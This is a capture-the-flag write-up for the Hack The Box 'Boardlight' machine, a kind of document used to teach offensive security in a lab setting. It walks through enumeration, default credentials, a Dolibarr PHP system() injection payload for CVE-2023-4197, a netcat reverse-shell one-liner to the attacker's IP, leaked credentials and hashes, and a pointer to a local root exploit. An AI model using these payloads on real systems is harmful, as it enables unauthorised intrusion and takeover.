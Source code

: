 ```yaml
---
title: HTB-Boardlight
draft: false
tags:
  - htb
  - enum4linux
---
```

pic here

## Information Gathering
### Rustscan
`rustscan --addresses 10.10.11.11 --range 1-65535`

![alt text](image-1.png)

## Enumeration
### HTTP - TCP 80

>  BoardLight is a cybersecurity consulting firm specializing in providing cutting-edge security solutions to protect your business from cyber threats 

![alt text](image.png)

board.htb

![alt text](image-2.png)

portfolio.php

![alt text](image-3.png)

![alt text](image-4.png)

`sudo gobuster vhost --append-domain -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

![alt text](image-7.png)

### crm.board.htb

![alt text](image-5.png)

![alt text](image-6.png)

`http://crm.board.htb/user/passwordforgotten.php`

![alt text](image.png)

admin:admin

![alt text](image-8.png)


## Shell as www-data
### CVE-2023-4197

https://nvd.nist.gov/vuln/detail/CVE-2023-4197

![alt text](image-9.png)

https://starlabs.sg/advisories/23/23-4197/

![alt text](image-10.png)

This change ensures that full PHP tags <?php ... ?> are used instead of short tags <? ... ?>, which may not be enabled on all servers.

```php
"htmlheader": f"<? echo system('{cmd}'); ?>"
```

```php
"htmlheader": f"<?php echo system('{cmd}'); ?>"
```


![alt text](image-11.png)

### Reverse Shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 1337 >/tmp/f

![alt text](image-12.png)

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](image-13.png)

## Privesc: www-data to larissa

![alt text](image-14.png)

![alt text](image-15.png)

From '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user		= mysql

![alt text](image-16.png)

![alt text](image-17.png)
CVE-2022-37706



### Local Enumeration
![alt text](image-21.png)


![alt text](image-18.png)

![alt text](image-19.png)

dolibarrowner
serverfun2$2023!!

![alt text](image-20.png)

## Privesc: Larissa to root

![alt text](image-23.png)

![alt text](image-22.png)

![alt text](image-24.png)

`select * from llx_user;`


| login    | pass_crypted                                                 | lastname   |
|----------|--------------------------------------------------------------|------------|
| dolibarr | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm | SuperAdmin |
| admin    | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 | admin      |


`find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;`

![alt text](image-25.png)

https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

![alt text](image-26.png)